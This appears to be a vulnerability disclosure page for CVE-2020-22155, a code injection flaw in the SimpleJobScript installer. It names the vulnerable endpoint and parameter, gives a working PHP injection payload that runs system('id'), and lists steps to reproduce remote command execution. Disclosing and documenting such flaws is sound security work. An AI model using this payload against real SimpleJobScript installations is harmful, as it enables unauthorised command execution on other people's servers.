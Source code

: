 ```yaml
---
cve: "CVE-2020-22155"
slug: "CVE-2020-22155: Code injection in SimpleJobScript by Niteosoft"
title: "Code injection in SimpleJobScript by Niteosoft"
images: [/images/cve-mitre.png]
date: 2020-02-13
tags:
- cve
- code injection
- rce
---
```

The installer of SimpleJobScript is vulnerable to Remote Command Execution if not completed yet through the parameter `url`.
<!--more-->

- mitre: https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-22155
- public announcement: https://github.com/niteosoft/simplejobscript/issues/8

<hr />

**Description:**  
The installer of SimpleJobScript is vulnerable to Remote Command Execution if not completed yet through the parameter `url`

**Details:**  
URL: `/installer.php`  
Parameter: `url`  

**Payload:**  
`url=example.com'.system('id').'&host=127.0.0.1&port=3306&username=test&password=test&db_name=sjs&submit=Save`

**Steps to Reproduce:**  
1/ Download and extract the SimpleJobScript archive in the server web directory:  
https://simplejobscript.com/downloads/category/products/  
2/ Run the installer  
3/ If the installation process has never been completed before you'll be prompt a form to submit database informations  
4/ In the `App Url` input, enter the payload below and submit: `example.com'.system('id').'`  
5/ Visit with your browser: `/_config/config.envs.php`  

**PoC:**
![cve-2020-22155 SimpleJobScript rce](/images/cve-2020-22155.png)
